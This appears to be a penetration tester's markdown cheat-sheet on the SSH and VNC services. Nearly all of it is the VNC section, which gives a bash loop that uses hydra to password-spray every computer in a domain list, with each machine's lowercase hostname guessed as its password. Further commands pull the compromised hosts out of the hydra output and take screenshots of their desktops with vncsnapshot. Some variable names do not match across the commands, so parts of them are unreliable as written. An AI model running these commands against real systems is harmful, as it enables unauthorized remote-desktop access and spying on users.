 ## <a name='ssh'></a>ssh

🔑 KEYPOINTS :
* service-port   : 22
* service-process: 
* artifacts      : 

## <a name='vnc'></a>vnc

🔑 KEYPOINTS :
* service-port   : 5900
* service-process: 
* artifacts      : 

### <a name='password-spraying'></a>password-spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

### <a name='test-valid-accounts-hydra'></a>test-valid-accounts-hydra 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

### <a name='screenshots-4-pwned-desktop'></a>screenshots-4-pwned-desktop
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```
